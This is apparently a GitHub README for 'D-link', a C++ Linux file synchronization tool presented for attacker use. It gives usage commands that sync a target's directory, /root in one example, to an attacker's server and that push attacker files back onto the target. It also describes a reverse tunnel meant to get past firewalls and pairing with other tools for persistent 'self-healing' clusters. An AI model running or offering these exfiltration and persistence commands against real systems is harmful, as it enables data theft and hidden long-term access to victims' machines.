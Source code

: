 # D-link

D-link is a lightweight Linux file synchronization tool written in C++.

1. Directory monitoring with real-time synchronization updates.
2. Access control: Clients are only allowed to automatically upload and delete files, and cannot download sensitive files from the server. Even if synchronized files are deleted from the server, the client will help restore them to the server.
3. Persistence: Can be used with Tyrant or S-Clustr to form a powerful self-healing network cluster.
4. AES encryption for communication, ensuring that the file synchronization process is encrypted and protected from man-in-the-middle attacks.
5. Real-time display of uploaded and downloaded data during the file synchronization process.
6. Authentication using a key to prevent unauthorized synchronization operations.
7. Loopback address synchronization speed can reach up to 200MB/s, while LAN synchronization speed can reach around 20MB/s.

# Usage

```
$ ./dlink -h
```

![alt text](./pic/image.png)

## D-link Forward Tunnel (Client to Server File Synchronization)

Example: (Real-time synchronization of the target directory to the attacker’s directory)

Server:

![alt text](./pic/image-1.png)

```
$ ./dlink server --port <LOCAL-PORT> --path <PATH>
```

![alt text](./pic/image-2.png)



Client:

>Create a 200MB test file for transfer

`$ dd if=/dev/urandom of=rand_file bs=1M count=200`

![alt text](./pic/image-3.png)

```
$ ./dlink client --endpoint <IP:PORT> --path <PATH> --key <KEY>
```

![alt text](./pic/image-5.png)

Server:

![alt text](./pic/image-4.png)
 
Wireshark:


![alt text](./pic/image-6.png)

## D-link Reverse Tunnel (Server to Client File Synchronization)

PS: Typically used to bypass firewalls and prevent data interception.

Example: (Real-time synchronization of the attacker’s directory to the target directory)

Server:

![alt text](./pic/image-7.png)

```
$ ./dlink server --port <LOCAL-PORT> --path <PATH> --reverse
```

![alt text](./pic/image-8.png)

```
$ ./dlink client --endpoint <IP:PORT> --path <PATH> --key <KEY> --reverse 
```

![alt text](./pic/image-9.png)

![alt text](./pic/image-10.png)


## Bidirectional synchronization

Server:

```
$ ./dlink server --port 10098 --path /tmp/root --key abcdefgh&
$ ./dlink server --port 10099 --path /tmp/root --key abcdefgh --reverse
```

Client:

```
$ ./dlink client --endpoint "<SERVER>:10098" --path /root --key abcdefgh &
$ ./dlink client --endpoint "<SERVER>:10099" --path /root --key abcdefgh --reverse
```
